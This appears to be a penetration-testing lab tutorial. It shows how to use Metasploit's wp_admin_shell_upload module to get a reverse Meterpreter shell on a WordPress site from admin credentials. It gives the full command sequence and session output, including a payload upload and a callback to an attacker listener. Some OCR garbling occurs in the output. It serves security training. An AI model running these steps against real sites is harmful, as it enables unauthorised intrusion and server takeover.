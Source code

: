 ﻿## Automating WordPress Exploitation

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start`MSF` by issuing the following command:

#### Starting Metasploit Framework


```shell-session
smoothment@htb[/htb]$ msfconsole
```

---

To obtain the reverse shell, we can use the`wp_admin_shell_upload` module. We can easily search for it inside`MSF`:

#### MSF Search

```shell-session
msf5 > search wp_admin

Matching Modules
================

# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/webapp/wp_admin_shell_upload 2015-02-21 excellent Yes WordPress Admin Shell Upload
```

The number`0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

#### Module Selection


```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

---

#### Module Options

Each module offers different settings options that we can use to assign precise specifications to`MSF` to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes The WordPress password to authenticate with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes The base path to the wordpress application
USERNAME yes The WordPress username to authenticate with
VHOST no HTTP server virtual host


Exploit target:

Id Name
-- ----
0 WordPress
```

---

## Exploitation

After using the`set` command to make the necessary modifications, we can use the`run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wpâ€”content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: wwwâ€”data (33)
```

